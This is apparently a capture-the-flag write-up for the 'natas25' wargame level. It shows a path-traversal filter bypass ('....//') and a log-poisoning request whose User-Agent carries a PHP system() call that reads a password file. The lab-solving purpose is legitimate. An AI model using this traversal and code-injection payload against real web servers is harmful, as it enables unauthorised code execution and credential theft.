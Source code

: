 # LFI PoC

## Description
1. The ```str_replace()``` filter is easily bypassed:

Example:
```php
php -r 'print(str_replace("../", "", "....//") . "\n");'
```

2. The log function includes the User-Agent without any validation.

## Request
```
GET /?lang=....//logs/natas25_kiuh65auel8ahc3u7md3rujio4.log HTTP/1.1
Host: natas25
User-Agent: <?php system("cat /etc/natas_webpass/natas26"); ?>
Cookie: PHPSESSID=kiuh65auel8ahc3u7md3rujio4
```

## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal
